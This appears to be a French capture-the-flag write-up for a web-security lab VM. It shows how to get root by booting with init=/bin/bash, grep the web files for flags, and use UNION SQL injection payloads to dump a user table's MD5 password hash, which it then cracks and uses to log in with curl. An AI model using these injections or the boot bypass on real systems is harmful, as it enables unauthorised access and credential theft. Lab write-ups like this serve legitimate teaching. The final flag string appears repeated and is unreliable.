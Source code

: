# BONUS

## Obtention de nombreux flags

### Lancement de la VM

Lancer la VM et rester appuyé sur la touche `shift`.

### Obtention des droits root

Lancer la commande `live init=/bin/bash`.

### Récupération des flags

On peut récupérer tous les flags à l'exception de ceux contenus dans les bases de données sql grâce à la commande suivante:
`cat /var/www/html/includes/* /var/www/html/index.php | grep -i flag`

## 12_signin alternatif

Il est possible d'obtenir le flag de la page: [signin](http://10.12.1.129/?page=signin) sans utiliser de brute force.<br>
La base de données: `Member_Brute_Force` contient les hash md5 des utilisateurs:

### INJECTIONS SQL

La commande:
`1=1 UNION SELECT table_schema, table_name FROM information_schema.tables`.<br>
permet d'apprendre que dans la base de données `Member_Brute_Force` se trouve une table unique: `db_default`.

La commande:
`1=1 UNION SELECT table_name, column_name FROM information_schema.columns`<br>
permet d'apprendre que dans la table "list_images" se trouvent les colonnes suivantes:

- id
- username
- password

Il est donc possible de vérifier le contenu de toutes ces tables.<br>
voici la partie intéressante de la commande:
`1=1 UNION SELECT username, password FROM Member_Brute_Force.db_default`.

```
root
3bf1114a986ba87ed28fc1b5884fc2f8
```

On peut décrypter le mot de passe grâce au site [md5 decrypt](https://md5decrypt.net/), qui donne: `shadow`.<br>
Et lancer la commande:<br>
`curl -s -X GET  "http://10.12.1.129/?page=signin&username=root&password=shadow&Login=Login"`.<br>
Nous pouvons avoir le flag: `6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b26e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b26e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`.
